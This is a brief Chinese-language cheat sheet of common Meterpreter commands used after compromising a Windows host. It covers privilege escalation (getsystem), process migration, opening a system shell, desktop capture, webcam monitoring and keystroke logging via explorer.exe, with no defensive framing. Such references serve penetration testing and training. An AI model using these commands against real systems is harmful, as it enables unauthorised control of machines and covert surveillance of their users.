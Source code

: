 ## meterpreter常用命令：


`getsystem`      #会自动利用各种各样的系统漏洞来进行权限提升

`migrate`        #进程id进程迁移

`background`         #把当前的会话设置为背景，需要的时候在启用

`getuid`         #查看对方正在运行的用户

`ps`             #列出所有的进程

`getpid`             #返回运行`meterpreter`的`id`号

`sysinfo`            #产看系统信息和体系结构

`shell`              #切换到cmd的系统权限方式

`exit`               #退出shell会话返回meterpreter或终止meterpreter

`getdesktop`             截取目标主机当前桌面会话窗口

`run webcam -p /var/www`         #在`/var/www`目录监控目标主机的摄像头

`keylog_recorder`                #使用`migrate`将会话迁移至`explorer.exe`的进程空间后记录键盘
 